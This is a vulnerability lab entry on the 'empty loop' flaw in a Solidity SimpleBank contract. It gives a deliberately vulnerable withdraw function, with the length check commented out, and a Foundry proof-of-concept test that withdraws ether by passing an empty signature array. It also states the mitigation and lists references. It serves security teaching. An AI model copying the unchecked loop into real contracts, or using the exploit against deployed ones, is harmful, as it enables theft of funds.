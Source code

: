 # Empty loop

**Name:** Empty loop issue

**Description:** Due to insufficient validation, an attacker can simply pass an empty array to bypass the loop and signature verification.

**Mitigation:**

Check the number of signatures require(sigs.length > 0, "No signatures provided");

**REF:**

https://twitter.com/1nf0s3cpt/status/1673195574215213057

https://twitter.com/akshaysrivastv/status/1648310441058115592

https://dacian.me/exploiting-developer-assumptions#heading-unexpected-empty-inputs

**SimpleBank Contract:**

```jsx
contract SimpleBank {
    struct Signature {
        bytes32 hash;
        uint8 v;
        bytes32 r;
        bytes32 s;
    }

    function verifySignatures(Signature calldata sig) public {
        require(
            msg.sender == ecrecover(sig.hash, sig.v, sig.r, sig.s),
            "Invalid signature"
        );
    }

    function withdraw(Signature[] calldata sigs) public {
        // Mitigation: Check the number of signatures
        //require(sigs.length > 0, "No signatures provided");
        for (uint i = 0; i < sigs.length; i++) {
            Signature calldata signature = sigs[i];
            // Verify every signature and revert if any of them fails to verify.
            verifySignatures(signature);
        }
        payable(msg.sender).transfer(1 ether);
    }

    receive() external payable {}
}
```

***\*How to Test:\****

forge test --contracts src/test/**empty-loop.sol** -vvvv

```jsx
// Function to test a vulnerability related to signature validation
    function testVulnSignatureValidation() public {
        // Transfers 10 Ether to the SimpleBankContract
        payable(address(SimpleBankContract)).transfer(10 ether);
        
        // Alice's address is set as the first address in the virtual machine
        address alice = vm.addr(1);
        
        // Initiates a "prank" on Alice's account in the virtual machine
        vm.startPrank(alice);

        // Initializes an empty array of Signature structs from the SimpleBank contract
        SimpleBank.Signature[] memory sigs = new SimpleBank.Signature[](0); // empty input

        // Logs Alice's balance before the exploit
        console.log(
            "Before exploiting, Alice's ether balance",
            address(alice).balance
        );
        
        // Calls the withdraw function of the SimpleBank contract with the empty signatures array as the parameter
        // If the SimpleBank contract does not validate the signatures properly, this might result in unauthorized withdrawal
        SimpleBankContract.withdraw(sigs); 

        // Logs Alice's balance after the exploit
        console.log(
            "Afer exploiting, Alice's ether balance",
            address(alice).balance
        );
    }
```

**Red box: pass an empty array to bypassed validation.**

![img](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F0c65504d-c3f1-4ee1-b088-76f631784fb3%2FUntitled.png?table=block&id=aa602a09-ccf5-4348-87dd-8ae494f92e4c&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)